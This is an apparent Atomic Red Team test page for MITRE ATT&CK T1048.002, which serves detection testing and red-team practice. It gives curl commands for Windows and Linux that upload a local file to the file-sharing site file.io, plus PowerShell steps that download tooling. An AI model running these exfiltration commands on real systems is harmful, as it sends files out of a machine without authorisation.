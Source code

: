 # T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl linux](#atomic-test-2---exfiltrate-data-https-using-curl-linux)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://curl.se/windows/dl-8.4.0_6/curl-8.4.0_6-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-8.4.0_6-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
```
##### Description: #{input_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{input_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1048.002/src/artifact" -OutFile "#{input_file}"
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl linux
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>

